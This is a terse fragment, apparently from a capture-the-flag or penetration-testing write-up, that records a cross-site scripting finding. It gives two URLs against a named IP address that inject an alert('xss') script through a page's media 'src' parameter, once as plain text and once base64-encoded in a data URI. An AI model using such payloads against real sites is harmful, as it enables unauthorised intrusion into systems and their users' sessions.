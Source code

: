 http://104.238.21.89/index.php?page=media&src=data:text/html,<script>alert("xss")</script>  found xss 

http://104.238.21.89/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=